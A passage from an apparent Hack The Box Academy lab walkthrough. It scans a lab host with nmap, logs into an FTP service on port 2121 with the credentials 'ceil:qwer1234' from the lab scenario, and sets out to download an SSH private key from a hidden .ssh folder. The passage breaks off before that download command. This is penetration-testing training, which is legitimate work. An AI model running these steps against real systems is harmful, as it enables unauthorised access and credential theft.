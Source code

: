 Code: shell

```shell
sudo sh -c 'echo "STMIP ftp.internal.inlanefreight.htb" >> /etc/hosts'
nmap -T4 ftp.internal.inlanefreight.htb
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-xx24xxdnig]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.85.254 ftp.internal.inlanefreight.htb" >> /etc/hosts'
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-xx24xxdnig]─[~/ipmiPwner]
└──╼ [★]$ nmap -T4 ftp.internal.inlanefreight.htb

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-28 10:32 GMT
Nmap scan report for ftp.internal.inlanefreight.htb (10.129.85.254)
Host is up (0.067s latency).
rDNS record for 10.129.85.254: internal.inlanefreight.htb
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
2121/tcp open  ccproxy-ftp
```

From the output of `Nmap`, students will know that there is a FTP protocol/service running on a `CCProxy` server utilizing port 2121.

Students need to recall the details written in the assessment's lab scenario. Specifically, that the credentials `ceil:qwer1234` had already been discovered. Therefore, students need to utilize them to connect to the FTP service on port 2121:

Code: shell

```shell
ftp ftp.internal.inlanefreight.htb 2121
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-xx24xxdnig]─[~/ipmiPwner]
└──╼ [★]$ ftp ftp.internal.inlanefreight.htb 2121

Connected to ftp.internal.inlanefreight.htb.
220 ProFTPD Server (Ceil's FTP) [10.129.85.254]
Name (ftp.internal.inlanefreight.htb:root): ceil
331 Password required for ceil
Password:
230 User ceil logged in
Remote system type is UNIX.
Using binary mode to transfer files.
```

When listing the hidden contents of the directory, students will find a `.ssh` folder, which contains within it an SSH private key named `id_rsa`, therefore, students need to use `get` to download it:

Code: shell
